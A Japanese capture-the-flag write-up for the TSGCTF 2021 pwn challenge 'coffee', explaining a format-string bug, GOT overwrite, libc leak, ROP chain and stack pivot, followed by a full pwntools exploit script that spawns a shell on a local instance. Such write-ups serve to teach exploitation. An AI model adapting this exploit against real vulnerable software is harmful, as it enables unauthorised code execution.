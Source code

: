 +++
title = "TSGCTF 2021 - coffee"
date = 2022-06-14

[taxonomies]
tags = ["CTF", "Writeup", "Pwn", "ROP", "FSB", "stack pivot"]
+++

- 問題ファイル: [tsgctf2021/pwn/coffee/dist at main · tsg-ut/tsgctf2021](https://github.com/tsg-ut/tsgctf2021/tree/main/pwn/coffee/dist)

## TL;DR

- 自明なFSBがある上にPartial RELROなのでGOT Overwriteが狙える
- `main`に戻っても特に出来る事は無いのでFSBのペイロードの下にROPチェーンを書いてROPをする
- ペイロードの長さ制限が際どいのでlibc leak後に`scanf`を利用してstack pivotする

## Prerequisite

- Stack Pivot

## Writeup

次のC言語のコードをコンパイルしたバイナリが動いている

```c
#include <stdio.h>

int x = 0xc0ffee;
int main(void) {
    char buf[160];
    scanf("%159s", buf);
    if (x == 0xc0ffee) {
        printf(buf);
        x = 0;
    }
    puts("bye");
}

```

checksecした結果は次の通り

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

自明なFSBがある上にPartial RELROなのでGOT Overwriteが出来る。やってくれと言わんばかりに`puts`が真下にあるのでこいつのGOTを書き換える。

問題はどのアドレスに書き換えるかである。仮にlibc leakが出来たとしてもその値をまたどこかに書き込まなくてはならないので`main`に戻る等で再度なんらかの入力関数を呼び出さないといけない。しかし、`main`に戻ったところで`if (x == 0xc0ffee)`のせいで再度FSBを利用する事は出来ず、事前の`scanf`も`buf`にしか書き込めないので特に意味のあることはできそうにない。

`puts`のGOTに書かれたアドレスが呼ばれる時、スタックは`main`のものとほとんど同じはずなので`buf`にROPチェーンを書いておけばROPが出来るような予感がする。

但し、`buf`の先頭にはFSB用のペイロードをおいておかなくてはならないので、ROPには使えず、起点となる`puts`のGOTに書き込むガジェットとして`pop`や`add rsp`でスタックの最初の方を無視できるようなガジェットが必要である。大量にpopするガジェットと言えば`__libc_csu_init`内にある`pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret`があり、更にこの上は`add rsp,0x8`があるので結構なサイズのスタックを飛ばして`rsp`を大きくすることが出来る。

ところでFSBがあることから`%s`を利用してアドレスの中身を見ることも出来る。`printf`が呼ばれるタイミングで既に`scanf`は呼ばれていることからここのGOTにはlibc中のアドレスが存在する。よって書き込みと同時に読み出しも行えば、libc leakとGOT Overwriteの両方が同時に出来る。

GDBでスタックの様子を覗いたりした結果、ペイロードの構造は次のようになった。

```python
   f"%{offset+2}$s"                    # libc leak用
 + f"%{0x86 - 6}c%{offset}$lln"        # putsのGOT書き換え用 (1バイト目)
 + f"%{0x4012 - 0x86}c%{offset+1}$hn"  # putsのGOT書き換え用 (2バイト目と3バイト目)
 + ROP
 + p64(addrs["puts_got"])              # FSBでガジェットを書き込む
 + p64(addrs["puts_got"] + 1)          # FSBでガジェットを書き込む
 + p64(addrs["scanf_got"])             # FSBで読み出し
```

処理の順序は「FSBのペイロードを送る -> `printf`でFSB発火 -> libc leak -> ROPチェーン発動」となっている。よって、ROPチェーン中で`scanf`を実行すればリークしたlibcのアドレスを使って`system`のアドレスをなんらかのGOTに書き込むといったことが出来る(なお、ネタバレをするとこれはあらゆる理由で断念した)。

ROPチェーン中で`scanf`を利用するために、フォーマット文字列を用意する必要があるが、コードで使われている`%159s`を利用しようとするとここのアドレスに`0x20`が含まれてしまうせいで最初に`scanf`でペイロードを送り込む際にここで止まってしまう。というわけで冒頭のFSBでwritableな領域にフォーマット文字列を用意しておく必要がある。これでFSBのペイロードは次のように修正された。

```python
   f"%{offset+2}$s"                        # libc leak用
 + f"%{0x86 - 6}c%{offset}$lln"            # putsのGOT書き換え用 (1バイト目)
 + f"%{0x4012 - 0x86}c%{offset+1}$hn"      # putsのGOT書き換え用 (2バイト目と3バイト目)
 + f"%{fmt_scanf - 0x4012}c%{offset+3}$hn" # バイナリに"%s"を書き込む用
 + ROP
 + p64(addrs["puts_got"])                  # FSBでガジェットを書き込む
 + p64(addrs["puts_got"] + 1)              # FSBでガジェットを書き込む
 + p64(addrs["scanf_got"])                 # FSBで読み出し
 + p64(addrs["bss"])                       # FSBで"%s"を書き込む
```

というわけで`scanf`を使って`puts`のGOTをlibc中の`system`のアドレスに書き換え、ROPチェーンの最後で`puts("/bin/sh")`をしてシェルを取ろうとしたのだが、`scanf`も`system`もSIMD命令を使う都合上、スタックのアライメントを`ret`ガジェットで調整する必要がある。更に`rsi`にpopするガジェットが同時に`r15`にもpopするため、余分な値をスタックに入れておかなくてはならない。これらの理由によってROPチェーンは長くなり、上手くやろうとすると入力制限である159バイトを超えてしまう。

ROPとFSBでコードゴルフはしたくなかったので、ROPチェーン中の`scanf`で任意アドレスへの書き込みが出来る事を利用し、writableな領域を偽のスタックとしてROPチェーンの続きを書き込んでStack Pivotを行うことにした。

## Code

```python
from pwn import process, remote, ELF, p64, u64
from Crypto.Util.number import bytes_to_long

def dict_hexdump(d):
    for k, addr in d.items():
        print(f"{k}: {hex(addr)}")


binary_path = "./coffee"
libc_path = "./libc.so.6"
elf = ELF(binary_path)
libc = ELF(libc_path)

addrs = {
    "puts_got": elf.got["puts"],
    "puts_plt": elf.plt["puts"],
    "scanf_plt": elf.plt["__isoc99_scanf"],
    "scanf_got": elf.got["__isoc99_scanf"],
    "fmt_scanf": next(elf.search(b"%159s")),
    "bss": 0x40404c,
    "scanf_libc": libc.symbols["__isoc99_scanf"],
    "system_libc": libc.symbols["system"],
    "execve_libc": libc.symbols["execve"],
    "one_gadget": 0xe6e79,
    "pivot": 0x404800
}

rop_gadgets = {
    "add_rsp_8_pop_6": 0x401286,
    "pop_rdi": 0x401293,
    "pop_rsi_r15": 0x401291,
    "ret": 0x40101a,
    "leave": 0x40121f,
    "pop_rbp": 0x40117d
}

fsb_addrs = p64(addrs["puts_got"]) + p64(addrs["puts_got"] + 1) + p64(addrs["scanf_got"]) + p64(addrs["bss"])

dict_hexdump(addrs)

print("[+] Exploit")
# exploit
# sc = process([binary_path])
sc = remote("localhost", 13337)

fmt_scanf = u64(b"%s" + b"\x00" * 6)
offset = 22
payload = f"%{offset+2}$s%{0x86 - 6}c%{offset}$lln%{0x4012 - 0x86}c%{offset+1}$hn%{fmt_scanf - 0x4012}c%{offset+3}$hn".encode()
current_length = len(payload)
payload += b"\x00" * (8 - current_length % 8)
payload += p64(rop_gadgets["pop_rdi"])  # 12
payload += p64(addrs["bss"])  # 13
payload += p64(rop_gadgets["pop_rsi_r15"]) # 14
payload += p64(addrs["pivot"]) # 15
payload += p64(0)  # 16
payload += p64(rop_gadgets["ret"]) # 17
payload += p64(addrs["scanf_plt"])  # 18
payload += p64(rop_gadgets["pop_rbp"])  # 19
payload += p64(addrs["pivot"])  # 20
payload += p64(rop_gadgets["leave"])  # 21

payload += fsb_addrs

payload = payload[:-2]  # for limit of payload length

print(len(payload), payload)

sc.sendline(payload)
res = u64(sc.recv(6) + b"\x00\x00")
libc_leak = res - addrs["scanf_libc"]
print(hex(libc_leak))

# input("[+] Attaching")

system_libc = libc_leak + addrs["system_libc"]
binsh_libc = libc_leak + next(libc.search(b"/bin/sh"))

# fake stack
payload2 = p64(addrs["pivot"] + 0x300)  # for pop rbp in leave and writable address
payload2 += p64(rop_gadgets["pop_rdi"])
payload2 += p64(binsh_libc)
payload2 += p64(rop_gadgets["ret"])
payload2 += p64(system_libc)

sc.sendline(payload2)

sc.interactive()
```

## Flag

ローカルでシェル取っただけ
